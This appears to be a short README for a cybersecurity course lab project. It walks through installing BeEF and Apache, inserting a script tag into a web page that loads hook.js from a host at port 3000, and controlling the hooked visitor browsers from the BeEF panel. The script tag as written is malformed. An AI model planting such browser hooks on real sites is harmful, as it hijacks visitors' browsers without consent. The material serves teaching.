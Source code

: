 # KGM-Cyber-Project1
Cybersecurity course first project in KGM

### Install beef-xss using apt
* sudo apt update
* sudo apt install beef-xss

### Install apache2
* sudo apt install apache2

### Obtain IP address
* ipconfig

### Add script to index.html
* cd /var/www/html
* vim index.html
* within the body tag, insert <script>src="http://IP_ADDRESS:3000/hook.js"</script>

### Start beEF and run apache
* beef-xss
    * this will ask to set beEF password

* systemctl enable apache2
* systemctl start apache2
* systemctl status apache2

* Go to IP_ADDRESS/ui/panel and login with beef as username and password as set during beef installation
* Online hooks should be enabled. Click on IP_ADDRESS and perform actions
